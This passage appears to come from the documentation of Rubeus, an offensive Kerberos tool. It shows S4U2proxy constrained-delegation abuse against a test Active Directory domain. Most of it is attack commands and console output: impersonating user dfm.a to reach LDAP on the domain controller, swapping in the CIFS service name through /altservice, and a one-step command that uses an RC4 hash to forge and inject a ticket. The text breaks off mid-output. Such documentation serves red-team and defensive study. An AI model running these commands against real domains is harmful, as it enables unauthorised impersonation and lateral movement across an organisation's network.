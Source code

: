 Then the S4U2proxy abuse function (using the ticket from the previous S4U2self process) would be:

    C:\Rubeus>Rubeus.exe s4u /ticket:doIE+jCCBPagAwIBBaEDAgEWoo..(snip).. /msdsspn:"ldap/PRIMARY.testlab.local" /tgs:doIF2jCCBdagAwIBBaEDAgEWoo..(snip)..
     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/

    v1.3.3

    [*] Action: S4U

    [*] Loaded a TGS for TESTLAB.LOCAL\dfm.a@TESTLAB.LOCAL
    [*] Impersonating user 'dfm.a@TESTLAB.LOCAL' to target SPN 'ldap/PRIMARY.testlab.local'
    [*] Using domain controller: PRIMARY.testlab.local (192.168.52.100)
    [*] Building S4U2proxy request for service: 'ldap/PRIMARY.testlab.local'
    [*] Sending S4U2proxy request
    [*] Connecting to 192.168.52.100:88
    [*] Sent 2641 bytes
    [*] Received 1829 bytes
    [+] S4U2proxy success!
    [*] base64(ticket.kirbi) for SPN 'ldap/PRIMARY.testlab.local':

        doIGujCCBragAwIBBaEDAgEWoo..(snip)..

Where `/ticket:X` is the TGT returned in the first step, and `/tgs` is the S4U2self ticket. Injecting the resulting ticket (manually with [Rubeus.exe ptt /ticket:X](#ptt) or by supplying the `/ptt` flag to the **s4u** command) will allow you access the **ldap** service on primary.testlab.local _as if you are dfm.a_. 

The `/altservice` parameter takes advantage of [Alberto Solino](https://twitter.com/agsolino)'s great discovery about [how the service name (sname) is not protected in the KRB-CRED file](https://www.coresecurity.com/blog/kerberos-delegation-spns-and-more), only the server name is. This allows us to substitute in any service name we want in the resulting KRB-CRED (.kirbi) file. One or more alternate service names can be supplied, comma separated (`/altservice:cifs,HOST,...`).

Let's expand on the previous example, forging access to the filesystem on **primary.testlab.local** by abusing its constrained delegation configuration and the alternate service substitution. Let's package it all into one step as well, performing a TGT request, S4U2self process, S4U2proxy execution, and injection of the final ticket:

    C:\Rubeus>dir \\primary.testlab.local\C$
    Access is denied.

    C:\Rubeus>Rubeus.exe s4u /user:patsy /rc4:2b576acbe6bcfda7294d6bd18041b8fe /impersonateuser:dfm.a /msdsspn:"ldap/PRIMARY.testlab.local" /altservice:cifs /ptt

     ______        _
    (_____ \      | |
     _____) )_   _| |__  _____ _   _  ___
    |  __  /| | | |  _ \| ___ | | | |/___)
    | |  \ \| |_| | |_) ) ____| |_| |___ |
    |_|   |_|____/|____/|_____)____/(___/
